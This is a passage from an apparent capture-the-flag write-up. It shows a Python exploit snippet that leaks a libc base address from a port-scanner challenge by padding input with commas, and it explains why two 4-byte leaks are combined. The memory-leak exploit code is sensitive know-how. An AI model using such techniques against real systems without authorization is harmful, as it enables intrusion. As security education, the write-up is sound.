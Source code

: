 ```python
scanIP("127.0.0.1", ",,,,,,,,,,,,,,,,,,,,,,,,10")
p.sendline(b'y')
scanIP("127.0.0.2", ",,,,,,,,,,,,,,,,,,,,,,,10")
showIP("0")
p.readuntil(b'closed10,')
Leak1 = p.readuntil(b'\n')[:-1]
Leak1 = hex(int(Leak1[6:]))

showIP("1")
p.readuntil(b'closed10,')
Leak2 = p.readuntil(b'\n')[:-1]
Leak2 = Leak2[6:]
if (Leak2[0] == 45):
    print("Try again lol")
    sys.exit()
Leak2 = hex(int(Leak2))
Leak2 = Leak2[2:]
Leak = int(Leak1 + Leak2, 16)
Leak = Leak - 6466976
print("LIBC BASE {}".format(hex(Leak)))
```

To make debugging easier and make sure everything is right, l made an extra if statement if the leak is bugged to close the exploit. What l did in this exploit was to add the , character (The program splits the ports based on the ```,``` character so you don't actually have to put a number there it will automatically put a 0) and l calculated how many numbers needs to be put so that the next value on the heap would be a libc address.
The reason why two scans are needed to get a full leak is because of the implementation of the ports. If we check the main code again:
```c
v26 = (void *)operator new[](4 * v10);
```

We can see that the numbers are saved as an int (4 bytes is the size of an int), but since a libc address has 6 bytes we need two leaks.

We only talked about the menu after scanning two or more IP addresses, but let's also check the code.
![](./code.png)
